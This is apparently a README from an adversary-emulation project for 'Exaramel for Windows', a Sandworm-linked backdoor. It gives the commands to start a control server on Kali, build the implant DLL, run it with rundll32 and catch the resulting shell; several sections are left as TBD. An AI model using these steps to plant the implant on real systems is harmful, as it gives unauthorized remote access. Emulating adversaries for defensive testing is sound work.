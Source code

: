 # Exaramel for Windows

What is the purpose of this binary?
How does it work?
What does it do?

## Quick Start

```
# Start your control server on Kali
sudo ./controlServer

# build Exaramel on Windows
make.bat

# run the DLL
rundll32.exe Exaramel-Windows.dll,Start

# catch the shell on your control server
```

## Build Instructions

Run make.bat on Windows.

It will output "Exaramel-Windows.dll" in the Exaramel-Windows folder.

```
cd sandworm\Resources\Exaramel-Windows\
make
```

## Test Instructions

```
cd sandworm\Resources\Exaramel-Windows\
go test -v ./...
````

## Usage Examples

```bash
TBD
```

### Cleanup Instructions

```bash
TBD
```

### CTI Evidence

TBD
